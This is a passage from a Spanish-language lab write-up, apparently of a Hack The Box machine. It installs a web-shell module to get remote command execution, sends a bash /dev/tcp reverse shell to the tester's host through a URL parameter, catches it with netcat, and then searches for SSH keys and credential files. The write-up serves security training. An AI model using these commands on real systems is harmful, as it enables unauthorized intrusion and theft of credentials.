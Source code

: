 Empaquetado e instalado:
```bash
tar -czf shellmod.tar.gz shellmod

````

Tenemos como resultado:
```bash
http://10.129.231.223/?q=shell&cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

````

Hemos logrado:

✅ **Instalar el módulo `shellmod` exitosamente**  
✅ **Obtener ejecución remota de comandos (RCE)**  
✅ Confirmar que estás ejecutando comandos como el usuario del servidor web (`www-data`)

1. **Obtener una reverse shell**

Para mayor control, lanza esto desde el navegador:
```bash
http://10.129.4.78/?q=shell&cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.41/4444+0>%261'

````

Escuchamos con:
```bash
nc -lvnp 4444

Y luego accedemos exitosamente con nuestro reverse shell:
┌─[eu-dedivip-1]─[10.10.14.41]─[mikjurado1@htb-ubn3vq6ewl]─[~]
└──╼ [★]$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.41] from (UNKNOWN) [10.129.231.223] 51004
bash: cannot set terminal process group (1012): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dog:/var/www/html$ 

````

Buscamos informacion importante:
```bash
whoami
www-data
www-data@dog:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@dog:/var/www/html$ uname -a
uname -a
Linux dog 5.4.0-208-generic #228-Ubuntu SMP Fri Feb 7 19:41:33 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
www-data@dog:/var/www/html$ sudo -l
sudo -l
sudo: a terminal is required to read the password; either use the -S option to read from standard input or configure an askpass helper
www-data@dog:/var/www/html$ find / -type f -name "*id_rsa*" 2>/dev/null
find / -type f -name "*id_rsa*" 2>/dev/null
^[[D
www-data@dog:/var/www/html$ 
www-data@dog:/var/www/html$ find / -type f -name "*id_rsa*" 2>/dev/null
find / -type f -name "*id_rsa*" 2>/dev/null
www-data@dog:/var/www/html$ find /home -type f 2>/dev/null | grep -Ei 'pass|cred|user'
<ome -type f 2>/dev/null | grep -Ei 'pass|cred|user'
/home/johncusack/user.txt


````